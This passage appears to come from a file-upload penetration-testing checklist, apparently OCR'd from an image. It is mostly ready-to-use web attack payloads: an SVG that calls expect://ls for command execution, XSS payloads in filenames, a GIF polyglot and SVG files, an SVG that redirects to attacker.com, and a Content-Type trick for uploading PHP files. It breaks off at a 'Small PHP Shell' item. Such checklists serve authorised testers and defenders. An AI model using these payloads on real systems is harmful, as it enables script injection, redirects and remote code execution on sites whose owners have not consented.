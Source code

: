             ```xml
            <svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
                <image xlink:href="expect://ls"></image>
            </svg>
            ```

            - Using excel file
        - [ ]  XSS
            - Set file name `filename="svg onload=alert(document.domain)>"` , `filename="58832_300x300.jpg<svg onload=confirm()>"`
            - Upload using `.gif` file

            ```
            GIF89a/*<svg/onload=alert(1)>*/=alert(document.domain)//;
            ```

            - Upload using `.svg` file

            ```xml
            <svg xmlns="http://www.w3.org/2000/svg" onload="alert(1)"/>
            ```

            ```xml
            <?xml version="1.0" standalone="no"?>
            <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

            <svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
               <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
               <script type="text/javascript">
                  alert("HolyBugx XSS");
               </script>
            </svg>
            ```

        - [ ]  Open Redirect
            1. Upload using `.svg` file

            ```xml
            <code>
            <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
            <svg
            onload="window.location='https://attacker.com'"
            xmlns="http://www.w3.org/2000/svg">
            <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
            </svg>
            </code>
            ```

    - Content-ish Bypass
        - [ ]  Content-type validation
            - Upload `file.php` and change the `Content-type: application/x-php` or `Content-Type : application/octet-stream` 
            to `Content-type: image/png` or `Content-type: image/gif` or `Content-type: image/jpg`.
        - [ ]  Content-Length validation
            - Small PHP Shell
